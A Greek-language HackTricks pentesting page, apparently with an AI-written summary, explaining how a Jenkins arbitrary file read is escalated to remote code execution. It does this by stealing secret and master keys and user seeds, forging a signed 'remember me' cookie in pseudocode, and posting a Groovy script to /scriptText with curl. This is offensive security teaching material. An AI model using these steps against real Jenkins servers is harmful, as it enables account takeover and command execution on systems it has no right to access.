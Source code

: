 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Σε αυτή την ανάρτηση blog είναι δυνατή η εύρεση ενός εξαιρετικού τρόπου για να μετατραπεί μια ευπάθεια Local File Inclusion στο Jenkins σε RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Αυτή είναι μια περίληψη που δημιουργήθηκε από AI του μέρους της ανάρτησης όπου η δημιουργία ενός αυθαίρετου cookie κακοποιείται για να αποκτήσει RCE εκμεταλλευόμενη μια τοπική ανάγνωση αρχείου μέχρι να έχω χρόνο να δημιουργήσω μια περίληψη μόνος μου:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" πρέπει να είναι ενεργοποιημένο (προεπιλεγμένη ρύθμιση).
* **Access Levels:** Ο επιτιθέμενος χρειάζεται δικαιώματα Overall/Read.
* **Secret Access:** Δυνατότητα ανάγνωσης τόσο δυαδικού όσο και κειμενικού περιεχομένου από βασικά αρχεία.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Πρόσβαση στη διαμόρφωση χρηστών και μυστικά από `$JENKINS_HOME/users/*.xml` για κάθε χρήστη για να συγκεντρωθούν:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Εξαγωγή κρυπτογραφικών κλειδιών που χρησιμοποιούνται για την υπογραφή του cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Προσθέτει μία ώρα στην τρέχουσα ώρα
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Μετατροπή του master key σε μορφή κλειδιού AES128
decrypted = AES.decrypt(macFile, key)  // Αποκρυπτογράφηση του αρχείου .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Υπολογισμός HMAC χρησιμοποιώντας το token και το MAC key
tokenSignature = bytesToHexString(mac)  // Μετατροπή του MAC σε δεκαεξαδική συμβολοσειρά
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Κωδικοποίηση του cookie σε Base64
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Κάντε ένα αίτημα στο `/crumbIssuer/api/json` για να αποκτήσετε `Jenkins-Crumb`.
* Συλλέξτε το `JSESSIONID` από την απόκριση, το οποίο θα χρησιμοποιηθεί σε συνδυασμό με το cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Το Groovy script μπορεί να χρησιμοποιηθεί για την εκτέλεση εντολών σε επίπεδο συστήματος ή άλλων λειτουργιών εντός του περιβάλλοντος Jenkins.

Η παραδείγματος curl εντολή που παρέχεται δείχνει πώς να κάνετε ένα αίτημα στο Jenkins με τις απαραίτητες κεφαλίδες και cookies για να εκτελέσετε αυθαίρετο κώδικα με ασφάλεια.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
